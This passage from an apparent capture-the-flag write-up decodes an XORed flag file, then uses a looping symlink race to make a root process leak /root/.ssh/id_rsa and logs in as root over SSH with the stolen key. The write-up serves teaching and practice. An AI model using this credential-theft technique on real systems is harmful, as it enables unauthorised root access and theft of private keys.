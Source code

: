 The resulting file is 33 bytes, the flag xored by 0x9b:



    tester@overflow:/tmp/0xdf$ ls -l o 
    -rw-rw-r-- 1 root tester 33 Sep 30 19:28 o
    tester@overflow:/tmp/0xdf$ xxd o
    00000000: aaa2 adaa fafe acaf a2ff a3ae a8ad afa8  ................
    00000010: fdfd f9aa aba2 a8fa feab aaa8 abaf a8a3  ................
    00000020: 91                                       .



I can decrypt it in Python:



    >>> with open('/tmp/0xdf/o', 'rb') as f:
    ...     enc = f.read()
    ... 
    >>> print(''.join([chr(0x9b^x) for x in enc]))
    1961ae74************************



#### Shell

I can use the same technique to read `/root/.ssh/id_rsa` by changing the
loop:



    while :; do rm l; ln -sf /root/.ssh/id_rsa l; sleep 3; rm l; echo "oops" > l; sleep 3; done



Once I decrypt the output, I can SSH into the box as root:



    oxdf@hacky$ ssh -i ~/keys/overflow-root root@10.10.11.119
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-143-generic x86_64)
    ...[snip]...
    root@overflow:~# 







